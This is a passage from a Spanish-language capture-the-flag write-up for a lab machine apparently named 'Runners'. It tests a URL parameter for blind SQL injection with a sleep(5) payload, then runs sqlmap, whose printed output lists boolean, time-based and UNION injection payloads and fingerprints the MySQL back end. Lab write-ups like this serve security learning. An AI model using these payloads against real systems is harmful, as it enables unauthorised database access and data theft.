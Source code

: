 Esto quiere decir que podemos aplicar **Inyecciones SQL Basadas en Booleanos y Ciegas (SQLi Boolean Based Blind)**.

Por último, veamos qué ocurre si tratamos de provocar un retardo de 5 segundos:
```bash
id=1 and sleep(5)--%20
```

<p align="center">
<img src="/assets/images/THL-writeup-runners/Captura9.png">
</p>

Tardó exactamente 5 segundos en cargar la página y nos mostró la página de error, por lo que descubrimos que también se pueden aplicar **Inyecciones SQL Basadas en Tiempo y Ciegas (SQLi Time-Based Blind)**.

Llegados a este punto, podemos elegir si queremos aplicar cualquiera de las siguientes inyecciones para tratar de obtener datos de la base de datos:
* **Inyecciones SQL Basadas en Booleanos y Ciegas (SQLi Boolean Based Blind)**
* **Inyecciones SQL Basadas en Tiempo y Ciegas (SQLi Time-Based Blind)**

Pero nos tardaremos mucho, así que vamos a optimizar ese tiempo usando la herramienta **SQLMAP**.

<br>

<h2 id="SQLMAP">Dumpeando Datos de Base de Datos MySQL con SQLMAP</h2>

Veamos si la página es vulnerable a **Inyecciones SQL** y qué clase de inyecciones podemos aplicar:
```bash
sqlmap -u 'http://192.168.10.240/post.php?id=1' --batch
...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3177=3177

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1961 FROM (SELECT(SLEEP(5)))hJOx)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-5438 UNION ALL SELECT CONCAT(0x716a6a7171,0x56596b76615768567750667478796f77635448704f57596c786a5168694d727551794d626c685370,0x7176767871),NULL,NULL-- -
---
[09:22:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
```